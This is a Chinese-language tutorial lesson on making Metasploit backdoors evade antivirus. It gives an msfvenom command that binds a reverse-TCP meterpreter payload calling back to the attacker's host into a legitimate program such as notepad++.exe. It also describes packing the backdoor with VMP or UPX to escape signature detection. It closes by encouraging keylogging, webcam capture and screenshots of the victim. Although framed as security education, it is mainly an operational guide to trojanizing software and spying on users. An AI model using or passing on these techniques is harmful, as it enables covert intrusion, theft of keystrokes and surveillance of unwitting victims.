






# 网络安全入门：P90：MSF绕过杀毒软件技巧 🛡️

在本节课中，我们将要学习如何让使用Metasploit Framework（MSF）生成的后门程序绕过杀毒软件的查杀。我们将介绍两种基础且有效的方法：捆绑木马和软件加壳，帮助你理解免杀的基本原理和操作。

---

## 概述

当使用MSF生成的后门程序上线后，它通常会被杀毒软件检测并清除。为了解决这个问题，我们需要进行“免杀”操作。免杀是指通过技术手段，使恶意软件躲避杀毒软件的检测。针对不同的操作系统和杀毒软件，免杀方法多种多样。本节课将聚焦于两种最基础、能有效绕过部分杀毒软件（如火绒）的方法。

---

## 方法一：捆绑木马

捆绑木马是一种历史悠久的免杀技术。其原理是将后门程序与一个正常的、可信的应用程序（如记事本、游戏外挂）捆绑在一起。当用户运行这个正常的程序时，捆绑的后门也会被悄无声息地触发。

在MSF中，实现捆绑木马非常简单。主要使用 `msfvenom` 工具的 `-x` 参数。

以下是具体操作步骤：

1.  **准备正常程序**：首先，你需要一个正常的、可信的应用程序（例如 `notepad++.exe`）。
2.  **使用 `-x` 参数生成**：在生成后门时，使用 `-x` 参数指定这个正常程序作为载体。
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的IP LPORT=你的端口 -x notepad++.exe -f exe -o backdoor_notepad.exe
    ```
    *   `-x notepad++.exe`：指定要捆绑的正常程序。
    *   其他参数用于定义后门类型和连接方式。
3.  **注意事项**：
    *   **位数匹配**：确保后门（Payload）的位数（32位或64位）与目标正常程序的位数一致。例如，如果你使用64位的Payload，就必须捆绑一个64位的应用程序。国内许多软件（如旧版QQ、微信、部分游戏）默认为32位，需注意选择。
    *   **软件来源**：建议使用国外常见的64位开发工具或软件（如 Eclipse, Adobe Photoshop 等）进行捆绑，成功率更高。
    *   **局限性**：此方法对于像360这类会深度检测软件行为的杀毒软件可能无效。

当目标用户运行生成的 `backdoor_notepad.exe` 文件时，正常的记事本程序会打开，同时后门程序也会在后台被激活。

---

上一节我们介绍了通过捆绑正常程序来隐藏后门的方法。本节中，我们来看看另一种更直接的免杀技术——软件加壳。





## 方法二：软件加壳

软件加壳原本是软件开发者用来保护程序不被反编译、破解或抄袭的技术。加壳工具会对原始程序进行压缩或加密，改变其二进制特征。同样，我们也可以利用这项技术来“保护”我们的后门程序，使其特征码发生变化，从而绕过杀毒软件的静态特征库查杀。

常见的壳主要分为两类：
*   **压缩壳**：如 UPX，主要目的是减小程序体积。
*   **加密壳/虚拟机壳**：如 VMP、穿山甲等，通过复杂的加密和虚拟化技术，强力保护代码逻辑。



以下是使用加壳软件的基本流程：

1.  **关闭运行中的后门**：在加壳前，务必确保要加壳的后门程序没有在系统中运行。可以通过Windows任务管理器结束相关进程。
2.  **使用加壳工具**：打开加壳软件（如VMP），通常操作都非常简单。
    *   将待加壳的后门程序文件（如 `demo9999.exe`）拖入加壳软件界面。
    *   点击 **Protect**（保护）或类似按钮。
3.  **获取加壳后程序**：加壳过程完成后，软件会生成一个新的文件（如 `demo9999_protected.exe`）。这个新文件就是已经过免杀处理的后门。
4.  **验证与使用**：你可以用目标杀毒软件（如火绒）扫描这个新生成的文件进行验证。确认免杀成功后，其使用方法与原始后门完全一致。在MSF控制台启动监听器（`handler`），运行加壳后的程序，即可成功获取 `meterpreter` 会话。


---

## 总结与后续操作

本节课中我们一起学习了两种基础的MSF后门免杀技巧：**捆绑木马**和**软件加壳**。这两种方法能有效绕过部分杀毒软件的静态检测。

成功获取 `meterpreter` 会话后，你将进入一个功能强大的远程控制界面。此时，你可以通过输入 `help` 命令查看所有可用指令，并大胆尝试。例如：
*   `keyscan_start`：开始键盘记录。
*   `webcam_snap`：尝试从摄像头拍摄照片。
*   `screenshot`：截取目标屏幕。





这些指令的描述已足够清晰，通过翻译和理解其功能，你可以自主探索和学习，从而更深入地了解系统控制与信息收集。

---



**本节课内容到此结束。** 如果对本节教程有任何疑问，欢迎在相关的学习平台讨论区提出。